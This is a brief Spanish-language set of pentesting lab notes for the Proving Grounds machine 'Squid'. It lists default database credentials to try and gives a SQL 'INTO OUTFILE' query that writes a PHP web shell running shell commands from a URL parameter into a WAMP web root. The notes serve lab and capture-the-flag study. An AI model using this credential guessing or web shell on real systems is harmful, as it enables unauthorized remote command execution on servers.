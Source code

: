 
## DESCRIPTION

Es necesario estar autenticados, probar:

root:root
root:
admin:admin
admin:


#### Mas información
* https://infosecwriteups.com/proving-grounds-practice-squid-walkthrough-f761d2da973f


## EXPLOITATION

### OPTION 1: SUBIR UNA WEB SHELL PHP

Utilizamos la ejecución de consultas en SQL para subir una web shell:
![[Pasted image 20230701162249.png]]
Accedemos a SQL y ejecutamos:

```
select "<?php echo shell_exec($_GET['c']); ?>" into OUTFILE 'C:/wamp/www/shell.php' 
```

![[Pasted image 20230701162234.png]]


**!!NOTA IMPORTANTE!!** 

En el phpinfo podemos ver la ruta al direcotrio raiz web

![[Pasted image 20230701162607.png]]

## MACHINES

* Hack The Box: 
* PG: SQUID

**!!NOTA IMPORTANTE!!** 